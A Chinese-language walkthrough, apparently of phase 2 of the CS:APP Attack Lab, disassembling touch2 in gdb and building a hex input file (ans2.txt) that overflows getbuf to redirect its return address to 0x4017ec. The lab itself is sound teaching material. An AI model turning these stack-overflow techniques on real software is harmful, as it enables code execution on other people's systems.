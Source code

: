 

## 1.2 phase_2

关于`touch2`，`test`函数的返回地址应该转移到`0x00000000004017ec`

```cpp
1 void touch2(unsigned val)62 {    3 vlevel = 2; /* Part of validation protocol */    4 if (val == cookie) {        5 printf("Touch2!: You called touch2(0x%.8x)\n", val);        6 validate(2);    7 } else {        8 printf("Misfire: You called touch2(0x%.8x)\n", val);        9 fail(2);    10 }    11 exit(0);12 }
```

```shell
(gdb) disas touch2
```

```assembly
Dump of assembler code for function touch2:   0x00000000004017ec <+0>:	sub    $0x8,%rsp // allocate stack frame   0x00000000004017f0 <+4>:	mov    %edi,%edx   0x00000000004017f2 <+6>:	movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>   0x00000000004017fc <+16>:	cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>   0x0000000000401802 <+22>:	jne    0x401824 <touch2+56> # jump mark_1   0x0000000000401804 <+24>:	mov    $0x4030e8,%esi   # check address 0x4030e8 "Touch2!: You called touch2(0x%.8x)\n"   0x0000000000401809 <+29>:	mov    $0x1,%edi   0x000000000040180e <+34>:	mov    $0x0,%eax   0x0000000000401813 <+39>:	callq  0x400df0 <__printf_chk@plt>   0x0000000000401818 <+44>:	mov    $0x2,%edi   0x000000000040181d <+49>:	callq  0x401c8d <validate>   0x0000000000401822 <+54>:	jmp    0x401842 <touch2+86>   # come here! mark_1   0x0000000000401824 <+56>:	mov    $0x403110,%esi   # check address 0x403110 "Misfire: You called touch2(0x%.8x)\n"   0x0000000000401829 <+61>:	mov    $0x1,%edi   0x000000000040182e <+66>:	mov    $0x0,%eax   0x0000000000401833 <+71>:	callq  0x400df0 <__printf_chk@plt>   0x0000000000401838 <+76>:	mov    $0x2,%edi   0x000000000040183d <+81>:	callq  0x401d4f <fail>   0x0000000000401842 <+86>:	mov    $0x0,%edi   0x0000000000401847 <+91>:	callq  0x400e40 <exit@plt>--Type <RET> for more, q to quit, c to continue without paging--cEnd of assembler dump.
```

touch2的逻辑相对比较简单，判断输入参数`%rdi`的是否和 `0x202ce2(%rip)`相等，也就是说，我们需要输入的参数`=0x202ce2(%rip)`才可以。

很明显，现在需要做两件事情

1. 将函数`touch2`输入参数，也即是`%rdi =0x202ce2(%rip)`
2. 将`getbuf`的返回地址设置到函数`touch2`的入口地址 `0x4017ec`



***

* 针对于第1个问题：

如何才能获得`=0x202ce2(%rip)`，不妨先将`0x00000000004017ec`作为返回地址插入进去（利用level1的方法）去运行一下，利用`GDB	`调试打印看看。

设计`ans2.txt`

```shell
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 0000 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00ec 17 40 00 00 00 00 00
```

执行命令，先打一个`breakpoint`在`0x00000000004017fc <+16>:	cmp    0x202ce2(%rip),%edi`这行代码的位置
